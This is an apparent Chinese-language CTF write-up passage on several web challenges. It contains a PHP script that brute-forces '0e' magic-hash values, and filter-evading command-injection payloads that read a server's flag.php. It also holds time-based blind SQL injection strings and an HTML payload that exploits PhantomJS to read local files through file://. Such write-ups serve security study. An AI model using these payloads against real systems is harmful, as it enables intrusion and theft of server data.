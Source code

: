 需要找一个满足`$md5==md5(md5($md5))`的值

写了一个快速爆破的脚本

```php
<?php
function check($num){
	// print($num."\n");
	if(md5(md5($num))==$num){
		var_dump(md5(md5($num)));
		var_dump($num);
		die(0);
	}
}
for($i=1;$i<=100;$i++){
	print("len:".$i."start\n");
	$t1=pow(10,$i-1);
	$t2=pow(10,$i);
	for($j=0;$j<$t1;$j++){
		check("0e".str_pad($j,$i,"0",STR_PAD_LEFT));
	}
	for($j=$t1;$j<$t2;$j++){
		check("0e".$j);
	}
}
?>
```

#### 考点3 命令注入

```
uniq</var/www/html/flag.ph\p
rev</var/www/html/flag.ph\p
```



### Login_Only_For_36D

时间盲注

```
or/**/if((password/**/like/**/BINARY/**/"{}%"),sleep(5),0)#

or(if(right(left(`password`,{j}),1)in(binary({hex(temp_text + chr(i))})),sleep(3),1))#
```

### RemoteImageDownloader

看起来像是ssrf

存在PhantomJS任意文件读取漏洞，通过`file://`加载的文件被认为是符合Same Origin Policy的同源文件

参考  [PhantomJs Arbitrary file read](https://web.archive.org/web/20191220171022/https://www.darkmatter.ae/blogs/breaching-the-perimeter-phantomjs-arbitrary-file-read/)

在服务器上设置页面

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
	document.write(this.responseText)
}
x.open("GET","file:///flag");
x.send();
</script>
```


